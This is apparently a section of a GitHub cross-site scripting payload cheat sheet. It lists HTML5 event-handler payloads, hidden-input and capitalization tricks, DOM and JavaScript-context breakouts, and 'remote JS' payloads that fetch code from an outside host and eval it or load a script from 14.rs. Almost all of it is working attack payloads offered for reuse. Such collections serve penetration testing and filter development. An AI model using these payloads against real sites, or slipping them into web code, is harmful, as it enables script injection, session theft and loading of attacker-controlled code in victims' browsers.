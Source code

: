 ### XSS using HTML5 tags

```javascript
<body onload=alert(/XSS/.source)>
<input autofocus onfocus=alert(1)>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video/poster/onerror=alert(1)>
<video><source onerror="javascript:alert(1)">
<video src=_ onloadstart="alert(1)">
<details/open/ontoggle="alert`1`">
<audio src onloadstart=alert(1)>
<marquee onstart=alert(1)>
<meter value=2 min=0 max=10 onmouseover=alert(1)>2 out of 10</meter>

<body ontouchstart=alert(1)> // Triggers when a finger touch the screen
<body ontouchend=alert(1)>   // Triggers when a finger is removed from touch screen
<body ontouchmove=alert(1)>  // When a finger is dragged across the screen.
```

### XSS using a remote JS

```html
<svg/onload='fetch("//host/a").then(r=>r.text().then(t=>eval(t)))'>
<script src=14.rs>
// you can also specify an arbitrary payload with 14.rs/#payload
e.g: 14.rs/#alert(document.domain)
```

### XSS in hidden input

```javascript
<input type="hidden" accesskey="X" onclick="alert(1)">
Use CTRL+SHIFT+X to trigger the onclick event
```

### XSS when payload is reflected capitalized

```javascript
<IMG SRC=1 ONERROR=&#X61;&#X6C;&#X65;&#X72;&#X74;(1)>
```

### DOM based XSS

Based on a DOM XSS sink.

```javascript
#"><img src=/ onerror=alert(2)>
```

### XSS in JS Context

```javascript
-(confirm)(document.domain)//
; alert(1);//
// (payload without quote/double quote from [@brutelogic](https://twitter.com/brutelogic)
```
